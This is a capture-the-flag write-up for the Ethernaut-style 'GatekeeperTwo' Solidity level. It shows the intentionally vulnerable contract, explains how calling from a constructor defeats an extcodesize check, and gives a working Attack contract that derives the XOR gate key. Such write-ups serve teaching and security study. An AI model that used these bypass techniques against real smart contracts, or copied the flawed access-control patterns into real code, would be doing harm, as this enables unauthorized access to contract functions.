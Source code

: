 <div align="center">

# GatekeeperTwo

</div>



**GatekeeperTwo (Vulnerable Code) :**


<details>
<summary>Code</summary>

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}

```

</details>

---------

**Approach and Exploit Method Including Code :** 


1. **Understand the contract**

  - `GatekeeperTwo` protects `enter()` with three gates:

  - **Gate One:** `require(msg.sender != tx.origin)`  
    → the call must come from a **contract**, not directly from your EOA.

  - **Gate Two:** reads `extcodesize(caller())` and requires it to be `0`  
    → `extcodesize(addr)` returns the runtime code size of `addr`. For a contract **during its constructor** the runtime code is not yet stored, so `extcodesize` returns `0`. This forces you to call `enter()` **from inside a contract's constructor**.

  - **Gate Three:** `require(uint64(keccak256(abi.encodePacked(msg.sender))) ^ uint64(_gateKey) == type(uint64).max)`  
    → the 8-byte `_gateKey` must be the bitwise complement of the low-8-bytes of the hash of the **caller address** (the attacker contract). Concretely:  
      `key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(attackerAddress)))) ^ 0xFFFFFFFFFFFFFFFF)`.

   - **Key idea:** pass the call from a contract (not your EOA), make the call **while that contract is being constructed** so `extcodesize` is 0, and supply a key derived from the attacker contract's address that satisfies the XOR-with-max condition.


2. **Exploit Method**

    i. Create an `Attack` contract whose **constructor** does the exploit (no external calls after deploy):

    - Inside the constructor compute:
    - `s = uint64(bytes8(keccak256(abi.encodePacked(address(this)))))`
    - `k = s ^ type(uint64).max`
    - `key = bytes8(k)`

    - From the constructor call `target.enter(key)` so the call originates from the contract under construction (satisfies Gate One and Gate Two).

    ii. Deploy the `Attack` contract passing the `GatekeeperTwo` address. The constructor will run the `enter` call immediately; because the contract is still constructing `extcodesize(caller)` is `0` and the crafted `key` meets Gate Three.

    iii. Verify success:
    - `gatekeeper.entrant()` should equal your EOA (`tx.origin`).

    **One-line summary:** call `enter` from inside an attack contract's constructor and pass `key = bytes8(uint64(keccak256(address(this))) ^ 0xFFFFFFFFFFFFFFFF)` so Gate One, Gate Two and Gate Three all pass.

## Exploit Code

```Solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract Attack{
    constructor(GatekeeperTwo target){


        uint64 s = uint64(bytes8(keccak256(abi.encodePacked(address(this)))));

         uint64 k =  s ^ type(uint64).max;

        bytes8 key = bytes8(k);
        require(target.enter(key), "failed");

    }
}


```

---


